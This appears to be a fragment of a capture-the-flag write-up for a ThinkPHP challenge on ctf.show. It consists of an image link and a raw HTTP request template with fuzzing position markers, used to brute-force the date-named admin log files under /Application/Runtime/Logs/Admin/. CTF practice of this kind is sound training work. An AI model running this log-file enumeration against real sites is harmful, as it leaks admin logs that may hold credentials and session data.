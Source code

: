 ![14](/medias/show-think/14.png)

```plaintext
GET /Application/Runtime/Logs/Admin/§24_01_01§.log HTTP/1.1
Host: 19862dcf-d6d6-466c-a486-2836bd3ee425.challenge.ctf.show
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```
